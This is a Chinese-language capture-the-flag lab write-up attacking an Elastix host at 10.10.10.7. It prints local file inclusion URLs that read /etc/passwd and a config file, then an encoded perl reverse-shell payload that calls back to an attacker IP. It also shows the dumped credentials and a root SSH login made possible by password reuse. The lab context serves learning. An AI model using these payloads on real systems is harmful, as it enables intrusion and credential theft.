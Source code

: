 直接访问可行

代码是：

```
Elastix
```

尝试获取精确版本号,上nikto，nikto因为TLS太老旧无法使用，gobuster跑了一下，老问题，文件任意浏览，先不管这个，看看有没有现有EXP

有这些好用的

- [Local File Inclusion](https://www.exploit-db.com/exploits/37637)
- [Remote Code Execution](https://www.exploit-db.com/exploits/18650)

先试试LFI

```bash
proxychains4 wget https://www.exploit-db.com/raw/37637 -O exp.perl
chmod +x exp.perl
sed -i 's/\r$//' exp.perl
```

破exp，不好用，手动来

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../recordings/misc/callme_page.php%00&module=Accounts&action
```

成功生效，如何进一步操作呢？首先这说明版本正确，RCE脚本应该也能用

```bash
proxychains4 wget https://www.exploit-db.com/raw/18650 -O exp.py
chmod +x exp.py
sed -i 's/\r$//' exp.py
# 修改代码

sudo nc -lvvp 443

./exp.py
# 生成URL，手动访问
# 在代码里我们发现了Elastix的提权方法——nmap提权
```

```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.19%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

LFI发现RCE所需页面好像已经GG了......，LFI exp包含的页面有凭据

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

不仅Web服务的admin有了，而且我们发现DB的密码也一样，考虑密码重用，直接登陆ssh，ssh版本太旧

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
```

登陆成功